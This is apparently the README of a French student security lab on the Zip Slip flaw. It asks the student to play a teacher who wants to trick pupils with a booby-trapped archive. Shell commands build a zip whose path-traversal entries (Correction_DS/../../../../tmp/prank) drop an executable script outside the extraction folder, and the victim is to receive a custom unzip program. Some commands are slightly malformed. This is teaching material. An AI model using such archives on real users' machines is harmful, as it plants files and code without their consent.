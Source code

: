 # TP-SECURITE-ZIP-SLIP

# Sujet

vous êtes aujourd'hui à la foi, l'attaquant et la victime.

### Etape Attaquant

Vous êtes un professeur et vous voulez tester leur franchise de vos élèves.<br>
Pour faire cela vous avez eu une petit idée, après avoir appris qu'il était possible d'executé du code lorsque qu'une personne dezip un dossier, on appel ça le <strong>Zip Slip</strong>.
afin de mettre votre plan à execution vous allez d'abord taper les commandes <strong>Shell</strong> écrite juste en dessous.

```
mkdir -p Correction_DS/../../../../tmp/prank
cp prank.sh /../../../../tmp/prank
chmod +x
Correction_DS/../../../../tmp/prank/prank.sh

zip -r Correction_DS.zip Correction_DS/
```
et ensuite vous avez votre dézipeur que vous devrez transmettre à votre victime <strong>UnZip_program.py</strong><br>
`python3 UnZip_program.py dossier.zip` : commande à executer<br>

